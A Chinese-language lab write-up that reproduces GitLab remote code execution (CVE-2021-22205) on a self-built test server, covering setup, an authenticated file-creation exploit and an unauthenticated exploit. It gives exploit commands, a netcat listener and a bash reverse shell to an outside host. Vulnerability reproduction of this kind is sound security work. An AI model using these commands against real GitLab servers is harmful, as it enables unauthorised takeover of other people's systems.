


# 0x01 影响版本
Gitlab CE/EE < 13.10.3  
Gitlab CE/EE < 13.9.6  
Gitlab CE/EE < 13.8.8  
# 0x02 环境搭建
使用环境：CentOS7.6.1810_x64_en-us  
下载rpm安装包：https://packages.gitlab.com/gitlab/gitlab-ce/packages/ol/7/gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
安装：sudo rpm -i ./gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
修改第1处配置：sudo vim /etc/gitlab/gitlab.rb
```
external_url 'http://192.168.202.133:1028'
nginx['listen_addresses'] = ['*', '[::]']
nginx['listen_port'] = 1028
nginx['listen_https'] = false
```
修改第2处配置：sudo vim /opt/gitlab/embedded/conf/nginx.conf
```
server {
        listen       *:1028;
        server_name  192.168.202.133;
        if ($http_host = "") {
            set $http_host_with_default "ip:1028";
        }
```
临时关闭防火墙
```
sudo systemctl stop firewalld
systemctl status firewalld
```
重新加载配置文件
```
gitlab-ctl reconfigure
```
重启gitlab
```
gitlab-ctl restart
```
成功配置后，访问目标地址如下图  
  
首次访问需要更改密码，此处更改密码对应的是管理员用户：admin@example.com  
通过登录界面的注册功能，注册一个新用户，并登录管理员用户通过注册申请，最终登录普通用户如下图  
  
# 0x03 漏洞复现1（需要验证）
直接使用工具[https://github.com/mr-r3bot/Gitlab-CVE-2021-22205](https://github.com/mr-r3bot/Gitlab-CVE-2021-22205)复现漏洞会有2个小问题  
1、当验证用户使用管理员时，程序会报错，如下图  
  
根据漏洞的基本原理及报错提示，大概猜测报错原因是管理员页面的html内容和普通用户页面的html内容不一致  
2、当验证用户使用普通用户时，提示RCE成功触发，但是没有回显，如下图  
  
将漏洞利用的方式改为创建文件，命令如下
```
python3 ./exploit.py -u ybdtd -p nihaomadadada -t http://192.168.202.133:1028 -c "touch ybdtybdt.txt"
```
提示RCE成功触发，到服务器端查看，发现成功创建此文件，用户权限是git，如下图  
  
# 0x04 漏洞复现2（不需要验证）
无需验证的原理是，可先向[http://192.168.202.133:1028/users/sign_in](http://192.168.202.133:1028/users/sign_in)发起请求获取到如下token
```
<meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="FDMYEP3KEj0GcWHB6ordjmI0rX5kC3zNOalicxxvG4KaDHWgQuEzvpYStFw3XfxVxeD67MNvIxkoxIGRuY/kDg==" />
```
然后带着token无需登录即可访问上传接口

借助工具：https://github.com/Al1ex/CVE-2021-22205  
vps上开启监听
```
nc -lnvvvp 1024
```
执行如下命令反弹shell
```
python3 ./CVE-2021-22205.py -a true -t http://192.168.202.133:1028 -c "bash -i >& /dev/tcp/xx.xx.xx.xx/1024 0>&1"
```
成功接收到反弹shell，如下图  
  
# 0x05 参考链接
https://mp.weixin.qq.com/s/cy8OOzHD28Of3zC32S_4ow  
https://blog.csdn.net/yzd524850313/article/details/113118193  
https://www.jianshu.com/p/56541f6c01a5  
https://www.cnblogs.com/ybit/p/14918949.html  
https://blog.csdn.net/smellycat000/article/details/121005824  
